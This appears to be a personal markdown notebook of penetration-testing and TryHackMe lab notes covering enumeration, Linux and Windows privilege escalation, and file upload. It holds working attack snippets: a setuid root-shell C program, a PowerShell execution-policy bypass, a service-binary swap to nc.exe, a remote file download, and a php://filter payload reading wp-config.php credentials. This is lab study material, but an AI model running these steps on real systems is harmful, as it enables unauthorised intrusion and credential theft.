 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Oh... no...

* https://github.com/rmusser01/Infosec_Reference

<hr>

## Reaped

* `smbmap -H IP`: see shares, users, files
* binwalk / binwalk -e (extract)
  * see what there is inside the file (ex: img then zip)
* https://github.com/frizb/Hydra-Cheatsheet
* https://github.com/s0md3v/Decodify
* https://github.com/carlospolop/legion
* export TERM=xterm-256color
* https://www.pentesterlab.com/
* https://github.com/nccgroup/GTFOBLookup
* https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/
* rustscan -a $IP -- --script=http-headers
* https://n3t-hunt3r.gitbook.io/pentest-book/web-application-pentesting/file-upload -- https://book.hacktricks.xyz/pentesting-web/file-upload
* https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍🐍

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/cowboyhacker

* nmap
* FTP exposed
* Hydra ssh
* SUID

--- https://tryhackme.com/room/lazyadmin 🐍🐍🐍

* nmap
* gobuster
* ...

--- https://tryhackme.com/room/startup

* nmap
* gobuster
* ftp
* file upload
* wireshark
* crontab

Others

* If FTP is asking for a password, press enter
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)
* Press F12 to go back to penelope UI. You can use upload/download. Go back with `interact 1`
* wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"
* Proper name for this section whelp 😭

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)